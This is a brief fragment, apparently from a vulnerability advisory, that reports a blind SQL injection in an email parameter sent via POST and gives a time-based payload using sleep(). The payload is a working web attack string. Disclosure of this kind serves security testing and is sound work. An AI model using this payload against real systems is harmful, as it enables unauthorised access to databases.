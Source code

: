 ### Blind SQL injections:

1) SQL injection email parameter via POST method:

   Payload:

    ```
   '%2b(select*from(select(sleep(2)))a)%2b'
    ```
